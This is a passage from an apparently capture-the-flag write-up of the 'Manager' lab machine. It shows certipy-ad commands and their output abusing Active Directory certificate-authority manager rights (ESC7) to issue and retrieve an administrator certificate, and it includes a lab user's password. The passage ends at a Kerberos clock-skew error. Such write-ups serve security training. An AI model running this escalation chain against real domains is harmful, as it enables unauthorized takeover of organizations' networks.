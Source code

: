 Now let us request a certificate based on the SubCA template. This request will be denied, but we will obtain a request ID and a private key, which we save to a file.

```sh
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb

Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 -
CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not
allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```

We note that the certificate request ID is 13. Let us now use our obtained permissions to manually issue the failed certificate with the ca command and the -issue-request `<request ID>` parameter.

```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -issue-request 13
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Successfully issued certificate
```

> If at this stage you get a [-] Got access denied trying to issue certificate error, re-run the command where we added Raven as a manager. The box's cleanup scripts will likely have restored the initial permissions.

Finally, we retrieve the issued certificate with the req command and the `-retrieve <requestID>` parameter.

```sh
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -retrieve 13
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Rerieving certificate with ID 13
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

With the administrator's PFX file in our possession, we can now utilize it for authentication. Upon running the auth command, we encounter the error "`KRB_AP_ERR_SKEW (Clock skew too great)`".

```sh
certipy-ad auth -pfx administrator.pfx
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError:
KRB_AP_ERR_SKEW(Clock skew too great)
```
